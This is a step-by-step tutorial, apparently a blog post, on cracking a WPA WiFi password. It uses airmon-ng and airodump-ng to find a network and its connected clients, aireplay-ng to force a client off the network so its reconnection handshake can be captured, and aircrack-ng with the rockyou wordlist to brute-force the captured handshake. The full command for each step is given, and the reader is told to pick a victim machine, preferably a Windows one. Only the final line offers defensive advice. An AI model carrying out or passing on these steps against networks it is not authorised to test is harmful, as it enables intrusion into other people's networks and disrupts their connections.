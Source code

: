 ```yaml
---
title: "Hack into WiFi networks with a De-Authentication attack"
summary: "In this article, we will demonstrate how to perform a basic WiFi attack with `aircrack-ng` by forcing a client to de-authenticate, retrieving the password hash, and finally bruteforcing the password."
date: 2024-06-03T20:00:00+0200
lastUpdate: 2024-10-15T13:45:06+0200
tags: ["hacking", "wifi", "network", "bruteforce"]
author: clementS
draft: false
---
```


## Abstract

**Initial State:** A client is connected to a ***password-securised WiFi***

The goal is to get the WiFi password.  
To achieve this we must:  
1) Detect the target WiFi's signal
2) Detect connected computer to this WiFi
3) Send de-authentication packets to this computer to make it disconnect from the WiFi
4) Get the password "hash" when it tries to reconnect to WiFi
5) Bruteforce it :)

## Network Packet Structure

![Network Packet](ip_header.jpg)

On each network packet there are source and destination addresses.
By default, WiFi cards only filter packet that have its IP as destination address.

That's a layer often added in driver, so it's hard to bypass.

> The first reason is not security though; it avoids useless CPU overhead and often, drivers on personal computers aren't made to allow monitor mode indeed

So how to bypass it ?

Buy a new WiFi Card with Monitor Mode capability that you can plug to your computer by USB (Monitor Mode is the ability to process all packets, even the ones that are not destinated to your MAC address).

I bought and used the AWUS1900.

The WiFi card will be considered as fully configured and driver installed in the rest of this tutorial.

To install the driver for AWUS1900 use:  
https://github.com/morrownr/8814au/blob/main/README.md

You will also have to install `aircrack-ng` on your machine.
For example on Ubuntu, Debian, or Kali:
```
sudo apt-get install aircrack-ng
```

## Step 1: Enable Monitor Mode
By default, your card is in Managed Mode (filter by destination address mode).
You have to tell him to get and read every packet.

First get your card interface name:
```
iwconfig
```

![iwconfig](iwconfig.png)

**Interface name is often wlan0 or wlan1**  
Then turn Monitor Mode on.  

```
sudo airmon-ng interface_name
```

![airmon-ngstart](airmon-ngstart.png)

> Note: Interface name can change to `<interface_name>mon`.
> You can check it with `iwconfig`.

## Step 2: Detect WiFi

```
sudo airodump-ng interface_name  
```
![airodump](airodump.png)

This will detect WiFi networks around. Each network is associated with a station address (the router).

Note the BSSID (MAC address of an access point) of the network you wish to target.
Note also the channel used, it represents the physical radio band on which the signal is actually modulated and sent.

> Note: For that concern, it is impossible to detect signals if the base frequency is not handled by your network card (2.4 Ghz only card and 5 GHz signal for instance)

## Step 3: Detect Computer Connectedfor

Then, we just add a filter to filter by source or destination equal access point MAC address
```
sudo airodump-ng -c channel --bssid mac_bssid
```

![airodumpfiltered](airodumpfiltered.png)

Here we can see connected computer(s)

Choose the one you want to hack and note the station MAC address.

## Step 4: Listen Network while Deauth Attack To Victim

We will now perform a de-authentication attack on the victim's station.
The goal is to make the station's WiFi Card disconnect and reconnect to network.
This will make the station send an authentication packet to the access point with the network password "hash" inside.
**That's the packet we wanna catch.**

We will do that with 2 commands:  
- Listen and write in a file all authentication packet catch threw this network.
```
sudo airodump-ng -c channel --bssid mac_bssid -w outfilename interface_name 
```

![airodumpfiltered2](airodumpfiltered2.png)

- Force the victim to de-authenticate from the WiFi.  
***We want to de-authenticate the victim while listening and writing network authentication packet when victim try to reconnect to his network => open a new terminal to perform attack***
```
sudo aireplay-ng -0 1 -a  mac_bssid -c station_mac_address interface_name
```

![airplay](airplay.png)

## Step 5: Checking EAPOL packet received

If de-authentication and re-authentication forced worked, we should have received an EAPOL packet. In listing packet terminal window, there's EAPOL written in packet received.

![airodumpattack](airodumpattack.png)

De-authentication works most of the time but immediate re-authentication doesn't always work.
Indeed, Mac OS does not reconnect immediatly to previously reconnected Network after WiFi card unplanned restart.
Windows OS doesn't follow the rule and try to reconnect instantly (prefer Windows station to attack if you have the choice :wink:)

Then, if it works stop the listening we have what we want by Ctrl+C over listening terminal.

## Step 6: Retreiving WiFi password

A new file was created, you can easily check it with the `ls` command.

### Time to bruteforce
To bruteforce we can choose different techniques, in our case we will perform a dictionary attack.
`rockyou.txt` is a good dictionary by default (you can find it [here](https://github.com/zacheller/rockyou)).

```
sudo aircrack-ng -w rockyou.txt outfile.cap
```

![aircrack-ng](aircrack-ng.png)

## Conclusion

The hardest thing to do is to force victim to reconnect.
Sometimes, victim OS does not reconnect automatically.  

Use strong passwords to protect your WiFi, and use the WPA3 protocol (hash function harder to calculate => lower hash rate).
It makes the bruteforce method less efficient.
